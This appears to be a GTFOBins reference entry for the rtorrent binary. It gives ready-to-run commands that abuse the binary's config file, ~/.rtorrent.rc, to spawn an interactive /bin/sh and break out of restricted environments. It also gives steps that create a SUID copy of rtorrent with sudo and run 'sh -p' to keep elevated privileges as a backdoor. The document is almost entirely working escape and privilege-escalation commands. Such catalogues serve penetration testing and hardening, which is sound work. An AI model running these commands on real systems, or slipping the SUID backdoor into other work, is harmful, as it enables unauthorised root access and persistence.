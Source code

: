 # GTFOBin: rtorrent

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
echo "execute = /bin/sh,-c,\"/bin/sh <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
rtorrent
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which rtorrent) .

echo "execute = /bin/sh,-p,-c,\"/bin/sh -p <$(tty) >$(tty) 2>$(tty)\"" >~/.rtorrent.rc
./rtorrent
```